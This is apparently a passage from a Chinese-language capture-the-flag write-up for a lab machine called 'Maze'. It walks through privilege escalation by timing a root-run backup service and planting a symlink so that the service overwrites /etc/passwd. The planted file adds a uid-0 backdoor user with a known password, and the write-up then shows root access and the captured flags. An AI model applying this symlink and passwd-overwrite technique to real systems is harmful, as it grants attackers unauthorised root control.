 稍等片刻

```bash
bamuwe@Maze:~/a$ ls -la /tmp/a/
total 8
drwxr-xr-x  2 root root 4096 Sep  4 07:55 .
drwxrwxrwt 11 root root 4096 Sep  4 07:55 ..
-rw-r--r--  1 root root    0 Sep  4 07:55 my_app.log.20250904075549.bak
```

20250904 日期（固定）

0755 时间（修改）

49 秒（固定）

填一个和你时间靠近的就好了

### 2.准备恶意passwd文件

```bash
bamuwe@Maze:/tmp$ cp /etc/passwd passwd
bamuwe@Maze:/tmp$ vim passwd
bamuwe@Maze:/tmp$ tail -n 1 passwd
b:$1$AydoDDh4$tEky6m30.0nY3HZ8FgoGI0:0:0::/root:/bin/bash
```

### 3. 软链接攻击

```bash
bamuwe@Maze:/tmp$ cd
bamuwe@Maze:~$ mkdir a
bamuwe@Maze:~$ cd a/
bamuwe@Maze:~/a$ vim /etc/log_backup_service/config.json
bamuwe@Maze:~/a$ cat /etc/log_backup_service/config.json
{
  "source_log_path": "/tmp/passwd",
  "backup_dest": "/home/bamuwe/a/",
  "run_as_user": "root"
}
bamuwe@Maze:~/a$ ln -sf /etc/passwd passwd.20250904080149.bak
```

当服务运行时，会将恶意的passwd文件内容写入到`/etc/passwd`，从而创建后门用户。

### 4. 切换到root权限

直接登录b就好了，密码`abcdefg`

```bash
bamuwe@Maze:~/a$ su b
Password: 
root@Maze:/home/bamuwe/a# id
uid=0(root) gid=0(root) groups=0(root)
```

# 六、获取Flag

```bash
root@Maze:/home/bamuwe/a# cat /root/root.txt /srv/tftp/user.txt
flag{root-6195bd8a9d755a41e493440a804f46d4}
flag{user-4e79af9d9b43464228ae1100839a2575}
username:bamuwe
need:bruteforce
```